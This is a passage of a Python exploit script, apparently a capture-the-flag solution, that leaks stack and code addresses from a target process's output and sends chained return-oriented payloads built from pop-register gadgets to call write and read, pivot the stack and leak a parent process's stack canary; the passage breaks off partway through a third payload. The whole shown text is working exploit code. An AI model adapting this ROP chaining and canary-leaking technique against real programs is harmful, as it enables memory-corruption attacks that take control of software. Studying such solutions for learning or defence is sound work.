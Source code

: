 ```python=
print len(payload)



#gdb.attach(r)
#raw_input()
r.send(payload)
text=0
stack=0
for i in range(4):
  r.recvuntil("REG_05:")
  a=r.recvline()
  c=int(a,16)
  #print hex(c)
  stack+=c<<(16*i)
print hex(stack)
for i in range(4):
  r.recvuntil("REG_05:")
  a=r.recvline()
  c=int(a,16)
  #print hex(c)
  text+=c<<(16*i)
text-=0x101d
print hex(text)

regadd=stack+0xe50
secondpay=(p64(text+poprdi)
+p64(1)
+p64(text+poprsi)
+p64(regadd)
+p64(text+poprdx)
+p64(60)
+p64(text+wwrr)
+p64(text+poprdi)
+p64(0)
+p64(text+poprsi)
+p64(stack-0x500)
+p64(text+poprdx)
+p64(656)
+p64(text+readd)
+p64(text+poprsp)
+p64(stack-0x500)
) # leak shared buffer address and do another stack migration
r.send(secondpay)
print len(secondpay)
r.recvuntil("========================================\n")
a=r.recv()
fd=u64(a[:8])
shared=u64(a[8:16])
print hex(fd)
print hex(shared)

haha=("\x48\x00"
+p64(0xdeadbeaf)*8)
fourpay=(haha
+"\x00\x01"
) #　The payload for leaking parent's canary

thirdpay=(p64(text+poprsi)
+p64(stack-0x1000)
+p64(text+poprdx)
+p64(len(fourpay))
+p64(text+readd)
```